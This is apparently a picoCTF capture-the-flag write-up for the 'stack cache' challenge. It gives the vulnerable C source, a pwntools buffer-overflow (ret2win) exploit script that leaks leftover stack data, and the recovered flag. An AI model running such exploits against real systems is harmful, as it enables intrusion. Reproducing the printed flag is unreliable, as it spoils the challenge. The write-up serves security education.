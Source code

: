 # stack cache
> Write-up author: vrescho
## DESCRIPTION:
Undefined behaviours are fun. It looks like Dr. Oswal allowed buffer overflows again. 
Analyse this program to identify how you can get to the flag. You can view source here. 
And connect with it using nc saturn.picoctf.net 62780
## HINT:
1. Maybe there is content left over from stack?
2. Try compiling it with gcc and clang-12 to see how the binaries differ
## STEPS:
1. Given a not stripped 32 bit binary file.

![image](https://user-images.githubusercontent.com/70703371/224532660-e0cbdbc3-c664-475a-b252-7a70c462c579.png)


2. Let's check the binary protections.

> VULN -> Partial RELRO, No PIE.

![image](https://user-images.githubusercontent.com/70703371/224532691-aa3cfd20-48ff-4f32-93b9-26543a44cf82.png)


3. Now check the source code.

> SOURCE

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 16
#define FLAGSIZE 64
#define INPSIZE 10

/*
This program is compiled statically with clang-12
without any optimisations.
*/

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}

void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}

void vuln(){
   char buf[INPSIZE];
   printf("Give me a string that gets you the flag\n");
   gets(buf);
   printf("%s\n",buf);
   return;
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  printf("Bye!");
  return 0;
}

```

4. Based from it, we can control the **EIP** by overflow the buffer of var buf then return to the `win()` function, it's a simple ret2win concept then, but the problem is it doesn't cat or print out the flag text.
5. But, notice at the `UnderConstruction()` function, there's a pointer format string call, which we can utilize to leak the value from the stack memory.

> NOTES

```
Still need to return to the win() to trigger the flag written inside the flag.txt file stored in the stack memory (pointer)
```

6. So the payload we shall send is:

```
padding + win() + under() 
```

7. Let's craft the script then.

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './vuln'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

padding = 14

p = flat([
    asm('nop') * padding,
    elf.sym['win'],
    elf.sym['UnderConstruction']
])

sh.sendline(p)

sh.interactive()

```

8. Create a file named flag.txt and store `AAAA..`'s inside it, then run the script locally to test our concept.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/224533323-65ed64c6-bfa4-45f9-a9b8-ccde9e2db826.png)


> 0x414141.. -> AAA.. -> successully leaked the flag value by calling the `UnderConstruction()`.

![image](https://user-images.githubusercontent.com/70703371/224533331-6af2c4b9-30b9-4769-aa61-972bd99d7829.png)


9. All good! Let's run it remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/224533391-9d61a71e-a563-4d25-8bd6-15f7832bbbf2.png)


> LEAKED -> seperate it manually to find the correct hex leaked | 32 bit -> 8 bytes.

```
04 00 7d
62 61 34 64
63 31 63 34
5f 59 72 30
6d 33 4d 5f
50 75 5f 4e
34 65 6c 43
7b 46 54 43
6f 63 69 70
```

10. Convert it to strings.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/224533590-097fd383-922f-4e63-8386-a18a15c01337.png)

> reverse it

![image](https://user-images.githubusercontent.com/70703371/224533631-f7a65208-c7a5-4d5f-9a4d-1332a92651e6.png)


11. Got the flag!

## FLAG

```
picoCTF{Cle4N_uP_M3m0rY_4c1cd4ab}
```




